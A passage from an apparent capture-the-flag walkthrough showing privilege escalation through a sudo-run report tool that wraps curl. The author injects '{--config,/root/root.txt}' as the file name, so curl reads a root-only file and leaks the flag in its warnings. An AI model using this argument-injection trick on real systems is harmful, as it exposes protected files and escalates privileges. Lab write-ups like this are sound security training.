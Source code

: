 ```text
Enter the filename:threat_report_16_40_45
<!doctype html>
<html lang="en" class="h-100">
  <head>
```

So I can create and read a report, but I couldn't find a way to exploit that. The third option asks for an IP and file name:

```text
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:10.10.11.126/test
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9294  100  9294    0     0  3025k      0 --:--:-- --:--:-- --:--:-- 3025k
Enter your choice:10.10.11.126/test
Wrong Input
```

I see from the output that curl is being used to download the file.

## Privilege Escalation

This took a while but eventually I found we can use curly brackets to pass a parameter to curl. We can use the config switch to read a file in, here from the manual:

```text
-K, --config <file>
    Specify a text file to read curl  arguments  from.  The  command
    line  arguments  found  in the text file will be used as if they
    were provided on the command line.

Example:
    curl --config file.txt https://example.com
```

## Root Flag

This allows us to bypass the check for a URL/IP and instead read the file specified:

```text
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:{--config,/root/root.txt}
Warning: /root/root.txt:1: warning: '5423cd0f9bd8573d133fee91e5550b66' is 
Warning: unknown
curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
```

That was a fairly tricky box. I hope you enjoyed this walkthrough. See you next time.
